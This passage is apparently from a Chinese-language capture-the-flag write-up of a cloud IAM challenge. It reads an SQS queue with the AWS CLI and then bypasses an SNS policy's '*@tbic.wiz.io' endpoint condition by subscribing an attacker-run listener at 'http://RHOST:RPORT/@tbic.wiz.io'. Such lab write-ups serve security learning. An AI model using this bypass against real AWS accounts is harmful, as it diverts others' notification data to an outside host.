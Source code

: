 此时通过 f12 审计该网页，可以发现 queueurl。

<div align=center><img width="1000" src="/img/2000000018.png"></div></br>

https://sqs.us-east-1.amazonaws.com 实际上是 sqs 在 aws-cli 的传统 endpoint，这个在官方文档里有，us-east-1 是 region。

```bash
sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2
```

接收到信息后，在 body 会有一个地址，访问可得到 flag。


### 小知识

并不是所有地方都能利用 `--no-sign-request` 进行匿名访问，比如此处，如果使用了匿名访问，则会提示拒绝访问。

因此，配置一个真实的 aws 凭据还是很有必要的。


## 3. Enable Push Notifications

题目 policy：

```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

大致意思是，允许所有人订阅 TBICWizPushNotifications 主题，但是限制 endpoint 必须包含 `@tbic.wiz.io`。

这里直接用 aws cli 订阅该主题，并将自己服务器作为 endpoint 即可接收到订阅。

利用 nc 起一个监听端口用于监听订阅信息。

然后 aws cli 发送订阅主题的请求：

```bash
aws sns subscribe --protocol http --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --notification-endpoint http://RHOST:RPORT/@tbic.wiz.io
```
